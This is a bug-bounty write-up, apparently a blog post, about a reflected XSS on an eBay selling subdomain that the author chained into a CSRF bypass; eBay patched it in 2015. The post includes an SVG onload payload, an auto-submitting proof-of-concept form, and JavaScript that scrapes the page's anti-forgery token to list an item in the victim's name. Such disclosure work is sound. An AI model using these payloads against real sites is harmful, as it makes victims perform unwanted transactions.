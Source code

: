 ```yaml
---
layout: post

title: "Making you sell what I want: Story of an Ebay XSS"
subtitle: ""
cover_image: ebay/ebay-sign.jpg

excerpt: "Reflected
 XSS vulnerability could be leveraged to make the victim sell unwanted items "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png


---
```


### TL;DR
A XSS vulnerability in Ebay can be exploited by an attacker to bypass CSRF protection and make a victim sell unwanted items.
This is a pretty basic technique but it could be interesting for people which have just entered in the Bug Bounty world.

### XSS on Ebay
Let's talk about my first bug hunting experience.
First of all why have I chosen to test Ebay? Simple:

- The Ebay website was first **developed lots of time ago** when the word ``"security"`` was not so popular and there weren't beatiful frameworks which prevents developer to make shit happen;
- Ebay is a pretty high level profile website and has a **Bug Bounty program** which awards with a mention in their Security Researchers Acknowledgement page;
- Ebay doens't offer a cash award (yes this doesn't seem to be a pro but this means that **not so many people have tested it** unlike Google and Facebook);

When trying to find a security issue the best place to **search** is **where other people hasn't already looked at**, so let's forgot for a moment the main page and let's search in some other subdomains. Two great tools to discover subdomains are [dnsenum](https://github.com/fwaeytens/dnsenum) and [fierce](http://tools.kali.org/information-gathering/fierce). Looking around I found **csr.ebay.it** which seems to handle the process of selling items as a merchant. Between the different requests sent to this domain a POST request to ``http://csr.ebay.it/cse/results.jsf `` caught my attention because it has a ``keyword`` parameter which is reflected in the response.

<div class="full zoomable">
  <img src="/images/ebay/burp_ebay.png">
</div>

A good payload which I use to test for XSS is  ``xxx"><svg/onload=alert(1)>`` because it provides two functionalities:

1. The string ``xxx``  is very unlikely to be present in the page so by **inspecting the source code** of the HTML page and searching for ``xxx`` I can discover the **location where my input has been reflected**;
2. The rest of the payload ``"><svg/onload=alert(1)>`` may **trigger a XSS vulnerability** popping up an alert box;

So we intercept the request to http://csr.ebay.it/cse/results.jsf  using [Burp](http://portswigger.net/burp/) edit the ``keyword`` field with ``"><svg/onload=alert(1)>``, submit the request and wait for:

<div class="full zoomable">
  <img src="/images/ebay/ebay_xss.jpg">
</div>

Yay!!! This is our lucky day but wait a minute where is the session cookie?

<div class="full zoomable">
  <img src="/images/ebay/session_cookie.png">
</div>

Oh no. The session cookie is set ``HttpOnly`` this means that it is **not accessible through javascript**, bye bye session hijacking but let's see what we could do with it.
Let's first create our PoC page; this is very straightforward, we just need to create an html form containing the fields and the value which we want to submit and submit it as soon as the user visit the page.

{% highlight html %}
<!DOCTYPE html>
<html>
  <head>
    <script src="https://code.jquery.com/jquery-2.1.3.min.js"> </script>
  </head>
  <body>
    <form id="myform" action="http://csr.ebay.it/cse/results.jsf?sbh=true" method="POST">
      <input name="keywords" id="keywords" value="&quot;><svg/onload=alert(document.domain+document.cookie)>" >
      <input name="btnStartGandalf" id="btnStartGandalf" value="Inizia" >
      <input name="startPage" id="startPage" value="true" >
      <input name="pageName" id="pageName" value="start" >
    </form>
  </body>
</html>

<script>
$.ready(
    $('#myform').submit()
      );
</script>
{% endhighlight %}

### From XSS to CSRF

I won't bother you on what a CSRF attack is, there are [very good explanation](http://haacked.com/archive/2009/04/02/anatomy-of-csrf-attack.aspx/) out there, the only thing to know is that this attack can be exploited to **make the user do unwanted actions** and can be prevented by attaching a hidden field ``csrf_token`` to the form which will be submitted.
Let's recapt what we know so far:

1. we can run javascript code through the **XSS in crs.ebay.it**;
2. crs.ebay.it domain enables the user to **sell items**;
3. the selling functionality is **protected against CSRF** through a hidden token in the form;

Attack plan: exploit the XSS to **exfiltrate the CSRF token** and use it to make a request in the behalf of the user.
We modify the payload before and instead of displaying an alert message (``"><svg/onload=alert(1)>``) we include a script which:

1. Send a GET request to the page containing the token;
2. Parse the page to get the token value (in our case the javax.faces.ViewState field);
3. Send a post request to ``http://csr.ebay.it/cse/list.jsf`` to publish the product with the fields which we have set in the form validated with the csrf token which we have exfiltrated before;


{% highlight javascript %}

//Generate the form which will be send to sell the item
var f = document.createElement("form");
f.setAttribute('id',"myform");
f.setAttribute('method',"post");
f.setAttribute('action',"http://csr.ebay.it/cse/list.jsf");

var i1 = document.createElement("input");
i1.setAttribute('type',"text");
i1.setAttribute('name',"title");
i1.setAttribute('value',"Iphone6");

...Add here all the other fields for the item to sell

var i2= document.createElement("input");
i2.setAttribute('type',"text");
i2.setAttribute('name',"javax.faces.ViewState");
i2.setAttribute('id',"javax.faces.ViewState");
i2.setAttribute('value',"");


var s = document.createElement("input");
s.setAttribute('type',"submit");
s.setAttribute('value',"Submit");

document.body.appendChild(f);
f.appendChild(i1);
f.appendChild(i2);
f.appendChild(s);


$.ready(
    $.ajax({
      url:"http://csr.ebay.it/cse/list.jsf?usecase=create&mode=AddItem&categoryId=30095",
      type: 'get',
      //1 sending a get request to the page containing the token
      success: function(data,status){
        var html = $.parseHTML(data);
        //2 parsing the html to find the token value
        var token = $(html).find( 'input[name="javax.faces.ViewState"]' ).val();
        console.log(token)
        //3 setting this value to the csrf_token field in the constructed form
        $("input[id='javax.faces.ViewState']").val(token)
        //4 submitting the form
        $('#myform').submit()
      }
    })
);

{% endhighlight %}

Hooray!! We have made the victim which click on our link sell an Iphone 6.
**Kudos to the Ebay security team** which has been very responsive and patched the vulnerability in a week.
I think that at the moment the security level of Ebay is not enough strong considering the sensitive informations and the profitable actions which the platform provide, so I keep wondering why Ebay hasn't already started a  payment based Bug Bounty program on platforms like Hackerone or Bugcrowd.

- 7 April 2015 Vulnerability reported to Ebay Security Team
- 15 April 2015 Vulnerability patched
- 25 May 2015 Added to the Responsible Disclosure Acknowledgements page
- 18 June 2015 Public disclosure


